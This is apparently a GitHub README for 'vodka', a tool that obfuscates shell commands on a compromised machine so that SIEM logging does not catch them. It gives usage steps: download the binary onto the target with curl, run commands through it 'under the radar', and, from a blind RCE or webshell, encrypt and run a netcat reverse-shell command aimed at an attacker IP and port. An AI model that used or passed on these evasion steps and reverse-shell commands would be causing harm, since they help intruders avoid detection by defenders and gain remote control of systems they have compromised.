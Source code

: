
<div align="center">
 <h1> vodka 🧊</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>vodka</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, vodka execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🧊<sub>(hide from)</sub></a>; <a href="#detection">👁️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/vodka/releases/latest/download/vodka

## Execute it
./vodka

## You are now under the radar
vodka » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
vodka » [command]
```

### from non interactive shell

Imagine you have a non interactive shell (webshelk or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `vodka` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build vodka with encryption key
make build.vodka-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
vodka encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./vodka decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use vodka normally)

```


## Hide from

Only the `vodka` lauch command line will be catched

## Detection

